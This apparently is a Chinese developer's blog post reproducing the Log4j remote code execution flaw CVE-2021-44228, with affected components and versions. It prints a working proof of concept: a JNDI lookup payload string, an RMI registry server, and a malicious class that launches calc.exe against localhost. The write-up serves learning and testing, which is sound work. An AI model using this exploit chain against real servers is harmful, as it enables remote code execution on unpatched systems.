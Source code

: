 title: "一个只会做开发的小白的 Log4j RCE 漏洞复现过程"
categories: [ "漏洞", "RCE" ]
tags: [ "RCE", "Log4j" ]
draft: false
slug: "log4j-rce"
date: "2021-12-13 17:25:00"



## 前言

CVE编号：**CVE-2021-44228**



这次的 RCE 漏洞影响确实大，堪称核武器级别，因为其复现极其简单，发出没多久几乎整个 IT 圈都知道了。我一个搞开发的，以往也就关注一些前沿的新技术消息，这次来关注一下安全圈的事件。



Log4j 是 Apache 的一款日志库，用途范围极其广泛，Spring 等框架均包含。



受影响的组件包含但不限于：

- Apache Struts2
- Apache Solr
- Apache Druid
- Apache Flink
- Apache Flume
- Apache Dubbo
- Apache Kafka
- Spring-boot-starter-log4j2
- ElasticSearch



## RCE 过程整理

影响版本：Apache Log4j Core <= 2.14.1



本文的代码仓库：https://github.com/taurusxin/CVE-2021-44228

### 复现

若某一服务中包含有 使用 Log4j 对用户输入内容的日志记录，那么便可触发 RCE

```java
package me.xingez;

import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;

public class Log4jTest {
    private static final Logger LOGGER = LogManager.getLogger();

    public static void main(String[] args) {

        String testPayload = "${jndi:rmi://127.0.0.1/evil}";

        LOGGER.error(testPayload);

    }
}
```

用户构造恶意 jdni 服务，将含有 `${jdni:xxx}` 的字符串提交到后端，记录日志时便可执行 lookup



![https://cdn.rhyland.cn/hugo/2021-12-13/calc.png](https://cdn.rhyland.cn/hugo/2021-12-13/calc.png)



其中我使用的 jdni 服务为 RMI registry，代码如下



`RmiServer.java`

```java
package me.xingez.rmi;

import com.sun.jndi.rmi.registry.ReferenceWrapper;

import javax.naming.Reference;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class RmiServer {
    public static void main(String[] args) {

        try {
          	// 注册 registry 监听端口
            LocateRegistry.createRegistry(1099);
            Registry registry = LocateRegistry.getRegistry();

            System.out.println("Create RMI registry on port 1099...");
          
          	// 实例化恶意代码类的引用
            Reference reference = new Reference("me.xingez.rmi.EvilCode",
                    "me.xingez.rmi.EvilCode", null);
          
          	// 绑定服务为 evil
            ReferenceWrapper wrapper = new ReferenceWrapper(reference);
            registry.bind("evil", wrapper);
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```



`EvilCode.java`

```java
package me.xingez.rmi;

import java.io.IOException;

public class EvilCode {
  	// 当 lookup 时，直接执行该类的静态块
    static {
        try {
            Runtime.getRuntime().exec("calc.exe");
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
}
```

声明：以上所有代码块均为安全测试时使用，切勿用于非法用途，使用此代码导致的后果与本人无关。

## 结语

这个漏洞触发简单到用发送一条消息的办法就可以做到，因为我是一名 MC 玩家兼 MC 服务器服主，所以这个问题对我来说是不可忽视的，好在我们服务器现在运行的是最新的 1.18，使用 Java 17，不存在此问题。

最后祝愿这几天修代码的安全工程师、开发者都保重身体健康！